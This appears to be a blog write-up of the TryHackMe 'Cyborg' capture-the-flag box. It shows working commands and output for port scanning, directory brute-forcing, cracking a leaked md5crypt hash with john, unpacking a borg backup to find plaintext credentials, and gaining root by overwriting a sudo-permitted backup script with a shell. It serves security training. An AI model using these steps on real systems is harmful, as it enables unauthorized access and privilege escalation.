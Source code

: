 ```yaml
---
published: true
layout: post
title: THM-Writeups_Cyborg
---
```


![]({{site.baseurl}}/images/Writeups/writeups-cyborg.jpeg)

### A box involving encrypted archives, source code analysis and more. 

---

#### Let's use nmap to check the machine's ports.

```
─[✗]─[aj-tap@parrot]─[~]
└──╼ $sudo nmap -sV -sC -O -T4 -n -Pn -p- -oA fullfastscan 10.10.125.131
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-06 21:06 +08
Nmap scan report for 10.10.125.131
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/6%OT=22%CT=1%CU=39276%PV=Y%DS=4%DC=I%G=Y%TM=6367B20
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 155.88 seconds
```
#### There are two open ports. SSH is listening on Port 22, while HTTP is listening on Port 80. We can verify this by grabbing the banner with netcat on port 22 and running whatweb on port 80.

```
┌─[✗]─[aj-tap@parrot]─[~]
└──╼ $nc 10.10.125.131 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
```

```
┌─[aj-tap@parrot]─[~]
└──╼ $whatweb 10.10.125.131 
http://10.10.125.131 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.125.131], Title[Apache2 Ubuntu Default Page: It works]
```

---

#### Let's look into the web application. We discovered that the root url contains a default Apache web page. Further investigation revealed a file in /etc/squid/squid.conf and etc/squid/passwd. It appears to be a squid proxy server that has been incorrectly configured.

### /etc/squid/squid.conf Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-1.png)

### /etc/squid/passwd Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-2.png)

#### Let's use the dirb tool to discover the site's hidden directories.
```
┌─[✗]─[aj-tap@parrot]─[~/Desktop]
└──╼ $dirb http://10.10.125.131/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Nov  6 21:27:34 2022
URL_BASE: http://10.10.125.131/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.125.131/ ----
	==> DIRECTORY: http://10.10.125.131/admin/    
```
### /admin Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-3.png)
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-4.png)

We just discovered the admin page. Based on the conversation, Alex set up a squid proxy, but due to a lack of knowledge of the technology, this results in a misconfiguration, which leads to an information disclosure. We found out before that the password hash is located on /squid/passwd. The admin page also includes an archive.tar file. 

![]({{site.baseurl}}/images/Writeups/writeups-cyborg-5.png)

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cat README 
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```
#### Based on the README file, these are encrypted backup files used by the borg tool, which is a deduplicating backup program. We can simply install borgback using apt package manager.
```
[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $sudo apt install borgbackup
```
#### https://borgbackup.readthedocs.io/en/stable/installation.html#distribution-package
```
─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg list .
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 22:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```
#### Using borgbackup list flag, it gaves us contents of the repository which is a encrypted music_archive. We already obtain the hash password of music_archive before. Let's crack it using john. 

```
─[aj-tap@parrot]─[~/Desktop]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hashpass.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:00 DONE (2022-11-06 21:33) 2.380g/s 93257p/s 93257c/s 93257C/s 091983..lilica
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

#### We recover the password from the hash. Let's supply this to borgbackup, then unpack the music archive and examine its contents.

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $mkdir unpacked_backup
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg mount . unpacked_backup/
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cd unpacked_backup/
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $tree 
.
└── music_archive
    └── home
        └── alex
            ├── Desktop
            │   └── secret.txt
            ├── Documents
            │   └── note.txt
            ├── Downloads
            ├── Music
            ├── Pictures
            ├── Public
            ├── Templates
            └── Videos

11 directories, 2 files
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Desktop/secret.txt 
shoutout to all the people who have gotten to this stage whoop whoop!"
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Documents/note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3

```

#### We simply obtained Alex's password from the note.txt file. Let's use this credential to log in to the machine's ssh.
```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
#### We found out that we can sudo backup.sh. Using this file, we can elavate our user account to root account. First, change the file permissions to read and write, and then add a script that invokes the bash program.
```
alex@ubuntu:~$ chmod 777 /etc/mp3backups/backup.sh 
alex@ubuntu:~$ echo "/bin/bash" > /etc/mp3backups/backup.sh 
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh 
root@ubuntu:~# cat /root/root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```




